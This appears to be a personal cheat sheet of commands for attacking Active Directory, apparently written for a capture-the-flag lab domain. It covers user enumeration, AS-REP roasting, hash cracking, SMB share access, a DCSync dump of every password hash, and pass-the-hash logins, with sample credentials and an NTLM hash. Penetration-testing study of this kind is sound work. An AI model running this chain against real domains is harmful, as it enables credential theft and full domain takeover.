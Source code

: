 # Kerberos-command
- to show port and version
    - `nmap -sV target IP`
    - `nmap -n -sCV target ip`
- What tool will allow us to enumerate port 139/445?
    - `enum4linux -u <username> -p <password> <target-ip>`
    - `enum4linux -n <target-ip> —-> to know domain name`
- to know valid user
    - `sudo ./kerbrute_linux_amd64 userenum -d <domain name> --dc <IP> /home/kali/userlist.txt`
- (AS-REP Roasting)To find accounts that have **pre-authentication disabled**, use **Impacket’s GetNPUsers.py**
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain name/> -dc-ip 10.10.56.247 -usersfile /home/kali/userlist.txt -format hashcat -outputfile asrep_hashes.txt
    </aside>
    
- to get hash type
      - https://hashcat.net/wiki/doku.php?id=example_hashes
- crack hash and get password
    - `hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/dirb --force`
    - `john --format=krb5asrep --wordlist=/home/kali/passwordlist.txt asrep_hashes.txt`
- SMBclient (Manual Interaction) —→ We can now attempt to enumerate any shares that the domain controller may be giving out.
    - `smbclient -L //<target-ip> -U <username>`
- You can check its contents by connecting to it:
    - `smbclient [//10.10.231.4/backup](https://10.10.231.4/backup) -U svc-admin`
    - `ls`
    - `get filename.txt`
- Decoding the contents of the file
    - `base64 -d backup_credentials.txt`
- Elevating Privileges within the Domain
    - know the account on the active directory
        - `rpcclient -U user%password target-ip`
        - `enumdomusers`
        - when found `DS-Replication-Get-Changes-All`  `SeBackupPrivilege`
    - make DCSync attack to take all hash of password in NTDS.DIT:
    - `impacket-secretsdump -just-dc spookysec.local/backup:backup2517860@10.10.58.140`
    
    or 
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:backupPassword@DC-IP
    </aside>
    
- make Pass-the-Hash attack to login by hash without crack hash and take password
- `evil-winrm -i 10.10.58.140 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/wmiexec.py spookysec.local/Administrator@10.10.58.140 -hashes :aad3b435b51404eeaad3b435b51404ee
    </aside>
    
-
